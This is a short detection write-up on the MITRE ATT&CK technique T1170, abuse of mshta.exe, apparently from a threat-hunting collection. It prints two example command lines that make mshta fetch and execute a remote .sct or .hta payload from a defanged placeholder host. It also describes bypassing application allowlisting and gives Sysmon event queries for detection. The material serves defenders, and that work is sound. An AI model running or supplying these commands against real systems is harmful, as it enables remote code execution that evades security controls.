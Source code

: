 # T1170: MSHTA 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension .hta. HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser.

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code.

Files may be executed by mshta.exe through an inline script: 
```mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))```

They may also be executed directly from URLs:
```mshta http[:]//webserver/payload[.]hta```

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings.

## Detection
```
Event 1
Sysmon Event ID = 1
Windows Security Event ID = 4688
process_parent_path = "*\\mshta.exe" OR process_name = "mshta.exe"

Event 2
Sysmon Event ID = 3
process_parent_path = "*\\mshta.exe" OR process_path = "*\\mshta.exe"

Event 3
Sysmon Event ID = 11 or 15
file_path = "*.hta"
```

